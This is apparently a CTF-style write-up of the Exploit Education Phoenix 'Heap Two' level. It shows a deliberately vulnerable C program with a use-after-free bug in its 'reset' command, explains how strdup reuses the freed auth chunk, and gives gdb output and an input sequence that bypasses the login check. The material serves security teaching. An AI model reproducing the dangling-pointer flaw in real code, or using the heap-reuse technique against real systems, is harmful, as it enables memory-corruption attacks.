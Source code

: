 ```yaml
---
title: " Exploit Education | Phoenix | Heap Two"
permalink: "exploit-education/phoenix/:title"
layout: post
---
```



```c
#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

struct auth {
  char name[32];
  int auth;
};

struct auth *auth;
char *service;

int main(int argc, char **argv) {
  char line[128];

  printf("%s\n", BANNER);

  while (1) {
    printf("[ auth = %p, service = %p ]\n", auth, service);

    if (fgets(line, sizeof(line), stdin) == NULL) break;

    if (strncmp(line, "auth ", 5) == 0) {
      auth = malloc(sizeof(struct auth));
      memset(auth, 0, sizeof(struct auth));
      if (strlen(line + 5) < 31) {
        strcpy(auth->name, line + 5);
      }
    }
    if (strncmp(line, "reset", 5) == 0) {
      free(auth);
    }
    if (strncmp(line, "service", 6) == 0) {
      service = strdup(line + 7);
    }
    if (strncmp(line, "login", 5) == 0) {
      if (auth && auth->auth) {
        printf("you have logged in already!\n");
      } else {
        printf("please enter your password\n");
      }
    }
  }
}
```

The is a classic use-after-free (**UAF**) exploit, if we enter **"auth AAAA"** the code allocates memory and stores it in **auth** then copies the name **AAAA** to **auth->name**, so far so good.

To login we need **auth** to point to a memory address and **auth->auth** not to be zero, we can't overflow **name** since there is a length checking **strlen**.

The bug here is that **reset** frees **auth** allocated memory but **auth** still points to that memory location which could contain anything, **auth** here is called a **dangling pointer**.

The way **strdup** function works is it uses **malloc** under the hood to allocate memory for a new string, and the way **malloc** works (in very little details) is that it first looks if there is a previously-freed chunk of  memory, and that chunk is big enough to service the request, it will use that freed chunk for the new allocation.

So if we allocated memory for **auth**, freed that memory then entered **service** the **strdup** function will use the previously freed memory address of **auth**, and now we can write anything to **auth->auth** (we are writing to **service** but **auth** points to that address already).

The goal here is only to change **auth->auth** to any thing so we will just use some junk.

```
user@phoenix-amd64:~$ gdb -q /opt/phoenix/i486/heap-two
Reading symbols from /opt/phoenix/i486/heap-two...(no debugging symbols found)...done.

gef➤  disassemble main
Dump of assembler code for function main:
.....
   0x080487e4 <+367>:	mov    eax,ds:0x8049adc
   0x080487e9 <+372>:	mov    eax,DWORD PTR [eax+0x20]
   0x080487ec <+375>:	test   eax,eax
.....

gef➤  b *0x080487e9
Breakpoint 1 at 0x80487e9

gef➤  r
Starting program: /opt/phoenix/i486/heap-two 

Welcome to phoenix/heap-two, brought to you by https://exploit.education
[ auth = 0, service = 0 ]
auth AAAA
[ auth = 0x8049af0, service = 0 ]
reset 
[ auth = 0x8049af0, service = 0 ]
serviceAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB
[ auth = 0x8049af0, service = 0x8049af0 ]
login 

Breakpoint 1, 0x080487e9 in main ()

gef➤  x/xw $eax+0x20
0x8049b10:	0x42424242		# value of auth->auth

gef➤  c
Continuing.
you have logged in already!
[ auth = 0x8049af0, service = 0x8049af0 ]
```

# Solution:

```
$ /opt/phoenix/i486/heap-two 
Welcome to phoenix/heap-two, brought to you by https://exploit.education
[ auth = 0, service = 0 ]
auth AAAA
[ auth = 0x8049af0, service = 0 ]
reset 
[ auth = 0x8049af0, service = 0 ]
serviceAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB
[ auth = 0x8049af0, service = 0x8049af0 ]
login 
you have logged in already!
```